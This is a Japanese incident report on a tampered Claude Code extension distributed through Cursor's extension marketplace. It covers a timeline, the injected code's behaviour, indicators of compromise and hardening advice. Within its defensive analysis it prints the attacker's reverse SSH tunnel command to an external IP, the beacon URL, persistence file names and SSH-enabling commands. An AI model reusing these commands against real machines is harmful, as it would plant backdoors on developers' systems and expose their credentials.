

# Cursor拡張マーケット ― 改ざん版Claude Code拡張が配布

## 要点

### 影響を受けたもの

- Cursor の VS Code 拡張マーケットプレイスで配布された **Anthropic.claude-code 2.1.312 と 2.1.313（Windows と macOS 向け）**。配布期間は 2026年10月29日 2:27〜13:35（米太平洋時間）、日本時間では29日18:27〜30日5:35（Cursor）。
- Microsoft によると、Microsoft の Visual Studio Marketplace と npm の公式パッケージは影響を受けていない。Anthropic は自社のシステムは侵害されておらず、このパッケージを作っていないと Microsoft に伝えている（Microsoft）。
- Cursor は、ほかの拡張は改ざんされていなかったことを確認したとしている（Cursor）。

### 今すぐやること

- 期間中に Cursor でこの拡張を入れた・自動更新した端末で、`authorized_keys` に **`svc-telemetry` というコメントの鍵** がないか確かめる。Windows では `%USERPROFILE%\.ssh\authorized_keys` と `C:\ProgramData\ssh\administrators_authorized_keys` の両方を見る（Cursor、Microsoft）。
- 見つかったら、端末を隔離し、証拠を保全してから、鍵・常駐の仕組み・動いているトンネルのプロセスを消す。**拡張をアンインストールするだけでは消えない**（Cursor、Microsoft）。Cursor が macOS 用と Windows 用の確認・修復スクリプトを公開している。
- 端末から使えた認証情報とセッションを、信頼できる別の端末から入れ替える。作り直すかどうかも検討する（Cursor）。
- 組織では、承認した発行元の拡張だけを許可し、新しく公開された版の導入を一定期間遅らせる設定を検討する（Microsoft が Cursor の推奨設定として紹介）。

## 概要

- Cursor は10月29日、自社の拡張マーケットプレイスで Anthropic の Claude Code 拡張の改ざん版が配布されていたと公表した。拡張を読み込むと、端末の情報を攻撃者に送り、攻撃者の SSH 公開鍵を登録し、攻撃者のサーバーへの逆向き SSH トンネルを張って常駐させようとする（Cursor）。
- Cursor は The Verge に対し、最大で約5,000人が入れた可能性があると説明している（The Verge）。
- 悪意あるコードの不具合のため、ローカルの SSH サービスを有効にする処理は、Cursor を管理者権限で起動したような特殊な場合を除いて失敗する。それでも、鍵の登録、常駐の仕組みの設置、端末情報の送信は行われたとされる（Cursor）。
- 攻撃者のサーバーは、Cursor がクラウド事業者と協力して止めた。Cursor はマーケットプレイス全体をいったん停止し、鍵を入れ替えて作り直してから再開した（Cursor）。
- 改ざん版がどうやってマーケットプレイスに載ったのかは、公表された情報からはわからない。

> この記事では、ベンダー・公的機関・研究者・報道で確認できた内容を「事実」、筆者の推測や意見を「考察」として分けて書いています。

## 何が起きたか（時系列）

| 日時（米太平洋時間） | 出来事 |
| --- | --- |
| 10月29日 2:27ごろ | 改ざん版が Cursor のマーケットプレイスで入手できる状態になる（Cursor） |
| 10月29日 13:35ごろ | 改ざん版の配布が止まる。Cursor は検知後すぐに削除し、マーケットプレイス全体も停止（Cursor） |
| 10月29日 | Cursor がセキュリティ通知を公開（Cursor） |
| 10月30日 | Microsoft が注入コードの分析を公開（Microsoft） |
| 10月30日 11:30 | Cursor が侵害の指標を更新し、対象バージョンに 2.1.312 も含むことを明確にする（Cursor） |

## 技術的な問題点（根本原因）

**事実（Cursor、Microsoft）**

- 改ざんされたのは拡張の `extension.js`。拡張の本来の処理より先に動く関数が差し込まれ、拡張が読み込まれた時点で実行される。拡張自体は普通に動き続けるので、利用者は気づきにくい（Microsoft）。
- 追加でプログラムをダウンロードせず、組み込みの部品と OS の標準コマンドだけで動く。コマンドの出力を捨て、エラーも黙って握りつぶす（Microsoft）。
- 改ざん版がどの段階で作られ、どうやってマーケットプレイスに公開されたかは、Cursor・Microsoft のどちらも説明していない。

**事実（Microsoft）：注入コードがすること**

1. **端末情報の収集。** ホスト名、ユーザー名、OS、アーキテクチャ、ホームディレクトリ、作業ディレクトリ、Git のメールアドレスを集める。環境変数のうち名前に KEY、TOKEN、SECRET、PASS、AWS、GCP などを含むものを最大40個選ぶ。送るのは **変数の名前だけで、値は送らない**。
2. **SSH 鍵の登録。** `authorized_keys` に `svc-telemetry` の印がなければ、埋め込まれた Ed25519 の公開鍵を追記する。
3. **SSH サービスの有効化を試みる。**
4. **逆向き SSH トンネル。** 別の秘密鍵を `.stk_` で始まる一時ファイルに書き出し、`ssh -N -R '*:0:localhost:22'` で攻撃者のサーバー（`tunnel@134.209.82.225`）に接続する。攻撃者側の空きポートへの接続が、被害端末の 22 番ポートに転送される。ホスト鍵の確認は無効にし、Unix 系では `autossh` を優先して使う。切れたら60秒待って再接続する。
5. **常駐。** macOS は `~/Library/LaunchAgents/com.apple.sysmond.plist`、Linux はユーザーの crontab の `@reboot`、Windows は SYSTEM で動かそうとする `SysMon` という予定タスクと、失敗時のスタートアップフォルダーの `sysmon.cmd`。Apple や監視ソフトのような名前を使っている。
6. **送信。** 少し遅らせて、集めた情報を `http://134.209.82.225:8099/beacon` に POST する。

**事実（Cursor）：多くの端末で乗っ取りまでは届かなかった理由**

- ローカルの SSH サービスを有効にするには管理者権限が必要で、この拡張はほとんどの macOS・Windows の端末でその権限を持たない。さらに悪意あるコードの誤りもあり、この手順は失敗する。その場合、攻撃者はトンネル経由でログインできなかった。
- ただし、鍵の追加、常駐の設置、端末情報の送信は行われた。環境変数の名前しか集めていなくても、バックドア経由で後から認証情報を取られた可能性は否定できない。

**考察**

- 狙いは秘密情報を一度に盗むことではなく、**開発者の端末に後から入れる入口を作ること** だったとみられる。開発者の端末にはソースコード、クラウドの認証情報、本番への接続設定が集まっている。環境変数の名前だけを集めたのは、どの端末に価値があるかを選ぶための下調べだった可能性がある。ただし、攻撃者の意図は公表されていない。
- 外向きの接続でトンネルを張るのは、社内ネットワークの外から直接は入れない端末に入るための典型的なやり方である。受信のファイアウォールでは止まらない。

## 攻撃・侵入経路

## なぜ防げなかったか・構造的要因の考察

**考察**

- **公式の配布元と別の配布元。** Cursor は VS Code をもとにしたエディターで、拡張は Microsoft の Visual Studio Marketplace ではなく別のマーケットプレイスから入る。今回は公式の配布元が無事だったのに、Cursor 側だけで改ざん版が配られた。利用者から見ると発行元の名前は同じ「Anthropic」で、どちらの配布元から来た版かを見分けにくい。
- **発行元の名前が信頼の根拠になっている。** 有名な AI ツールの拡張は導入数が多く、自動更新もされる。発行元名で信頼している利用者は、新しい版を疑わずに受け入れる。正規の発行元の名前で載ったことが、短時間で多くの端末に届いた理由と考えられる。ただし、なぜ正規の名前で載せられたのかは説明されていない。
- **「アンインストールで終わり」にならない。** 拡張のフォルダーの外に鍵と常駐の仕組みを書くため、拡張を消しても、マーケットプレイスが直っても、攻撃者のサーバーが止まっても、端末には痕跡が残る。配布元の対応と、各端末の後始末は別の仕事になる。
- **攻撃者のコードの不具合に助けられた面がある。** 被害が抑えられたのは、主に権限不足とコードの誤りのためで、防御側の仕組みで止めたわけではない。同じ手口がきちんと書かれていれば、もっと多くの端末で外から入れる状態になっていた。

## 運用者向けの具体的な対策と検知ポイント

**事実（Cursor、Microsoft の侵害の指標）**

- 通信先: `134.209.82.225`（SSH 22番、HTTP 8099番 `/beacon`）。`127.0.0.1:8099/beacon` への送信も試みる。`ifconfig.me` や `api.ipify.org` への通信は正規サービスなので、それだけでは指標にならない。
- 鍵: コメント `svc-telemetry`、指紋 `SHA256:0Z6R+DF64Do2nwQic8a7kkfDLNNk4IiK+2U2Rci4htk`。トンネル用の鍵の指紋 `SHA256:KOAU57+ZG6u3MG4WwzPzPX2O5YEe9qdOC1Bl+6MVyDQ`。
- ファイル: `~/.config/.smt`、`~/.config/.smtk`、`.stk_` と16進10文字の一時ファイル、`~/Library/LaunchAgents/com.apple.sysmond.plist`、`%USERPROFILE%\.config\smt.cmd`、`%USERPROFILE%\.config\smtk`、スタートアップフォルダーの `sysmon.cmd`、予定タスク `SysMon`。
- プロセス: `ssh -N -R '*:0:localhost:22'`、`autossh -M 0`、`StrictHostKeyChecking=no`、`UserKnownHostsFile=/dev/null`、`systemsetup -setremotelogin on`、`Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`、`schtasks /create /tn SysMon`。
- `extension.js` の SHA-256: `ecb58cb29078d9646ad1dcdbe51526f2d9cfea06be5fb2ab183e8ecc3ab6bf15`。VSIX のハッシュは Cursor の通知に版・OS ごとに載っている。
- Microsoft は、上記の IP・ファイル・予定タスク・plist を探す Defender XDR の検索クエリを公開している。名前だけでは正規の監視ソフトと区別できないので、設定されている実行内容を確かめてから消すよう勧めている。

**考察（運用上の工夫）**

- **開発者の端末で SSH サーバーを動かさない。** 必要な端末以外では SSH サーバーを無効にし、有効化や `authorized_keys` の変更を監視する。今回の手口は、SSH サーバーが既に動いている端末ほど成功しやすい。
- **外向きの SSH を制限する。** 開発者の端末から任意の外部ホストへの 22 番の接続を許可している組織は多い。接続先を社内の踏み台や許可したサービスに絞れば、逆向きトンネルは張れない。
- **拡張の導入を管理する。** 許可した発行元と版だけを入れられるようにし、新しい版の自動更新は一定期間遅らせる。配布元が複数ある場合は、どの配布元を使うかも決めておく。
- **エディターを管理者権限で動かさない。** 今回、SSH の有効化が成功しうるのは管理者権限で起動していた場合だった。普段の作業を一般ユーザーの権限で行うことが、被害の大きさを直接左右した。

## 参考リンク

- [Security notice — malicious version of Anthropic.claude-code (2.1.312 and 2.1.313) identified in the Cursor VS Code Extension Marketplace（Cursor、2026年10月29日、30日更新）](https://cursor.com/blog/claude-code-extension-security-notice)
- [Inside a malicious Claude Code-branded extension and its persistent SSH backdoor（Microsoft Security Blog、2026年10月30日）](https://www.microsoft.com/en-us/security/blog/2026/10/30/inside-malicious-claude-code-branded-cursor-extension-persistent-ssh-backdoor/)
- [Malicious Claude Code extension distributed through Cursor marketplace（Sophos）](https://www.sophos.com/en-us/blog/malicious-claude-code-extension-distributed-through-cursor-marketplace)
- [Cursor says around 5,000 people may have installed a malicious Claude Code extension（The Verge）](https://www.theverge.com/ai-artificial-intelligence/1023096/cursor-says-around-5000-people-may-have-installed-a-malicious-claude-code-extension)
